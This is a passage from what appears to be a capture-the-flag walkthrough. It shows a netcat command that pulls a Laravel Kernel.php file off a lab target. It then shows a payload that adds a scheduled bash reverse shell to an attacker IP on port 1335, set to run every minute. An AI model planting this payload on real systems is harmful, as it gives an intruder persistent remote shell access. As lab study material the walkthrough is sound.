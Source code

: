 - On Attacker
```
nc -w 3 10.129.228.125 4444 > Kernel.php
```

![](./IMG/49.png)

3. Edit Kernel php file with following payalod in schedule function
```
$schedule->exec('/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.17.145/1335 0>&1"')->everyMinute();
```

![](./IMG/50.png)
